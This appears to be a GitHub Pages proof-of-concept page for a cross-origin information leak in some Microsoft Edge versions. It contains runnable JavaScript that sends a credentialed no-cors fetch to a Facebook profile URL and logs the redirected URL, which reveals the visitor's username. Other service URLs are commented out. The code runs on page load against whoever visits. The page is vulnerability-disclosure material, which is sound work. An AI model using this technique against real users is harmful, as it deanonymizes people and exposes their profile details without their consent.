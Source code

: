 ```yaml
---
layout: default
title: Microsoft Edge Fetch Proof of Concept
---
```


# Microsoft Edge Fetch Proof of Concept

For the PoC to work, you must be browsing with a vulnerable Microsoft Edge version while logged in to the listed services.

<div class="language-klipse-eval-js" data-async-code="true">
function test_fetch(url)
{
    fetch(url, {
            mode: "no-cors",
            credentials: "include",
         }).then(function(response) {
                if (!response.url) {
                    console.log("Fetch does not leak URL");
                }
                else
                {
                    console.log(url + ": " + response.url);
                }
            }).catch(function(error) {
                console.log("Failed with: ", error);
            });
}

//test_fetch("https://youtube.com/profile");
//test_fetch("https://docs.com/me");

test_fetch("https://facebook.com/me");
</div>

If the code above prints your username, an attacker could identify you by reading the username from the URL. All your public information on this page will be available to the attacker (for instance all your public Facebook details that can be found by browsing to the above URL).